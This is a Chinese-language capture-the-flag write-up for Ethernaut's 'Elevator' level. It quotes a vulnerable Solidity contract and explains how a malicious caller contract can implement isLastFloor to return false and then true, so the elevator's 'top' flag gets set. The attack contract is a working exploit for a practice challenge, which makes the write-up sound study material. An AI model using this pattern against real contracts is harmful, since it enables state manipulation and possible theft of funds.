

## Level_11.Elevator

要求：

> 到达顶层；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

### 分析

给出的合约中有一个接口` Building `和主合约` Elevator `；

函数` goTo `中后半部分的判断应该是：

1. ` if (!building.isLastFloor(_floor)) `处` isLastFloor `应该返回` False `，这样才能往下执行；
2. ` top = building.isLastFloor(floor); `处` isLastFloor `应该返回` True `，这样就能达到题目要求；

但现在的问题是，我们并不知道` isLastFloor `中的逻辑是什么；

注意这一句` Building building = Building(msg.sender); `，若我们(合约)是` msg.sender `，那我们完全可以实现按照我们逻辑的` isLastFloor `函数；

所以，我们只需实现一个我们自己的` isLastFloor `，一开始返回` False `，随后返回` True `即可；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp is Building {
    Elevator public elev;
    bool flag = false;
    // 初始化合约地址
    constructor(address addr){
        elev = Elevator(addr);
    }
    // 实现接口
    function isLastFloor(uint256) external override returns (bool){
        if (flag == false) {
            flag = true;
            return false;
        } else {
            return true;
        }
    }
    // 攻击
    function Attack() public {
        elev.goTo(2);
    }
}
```



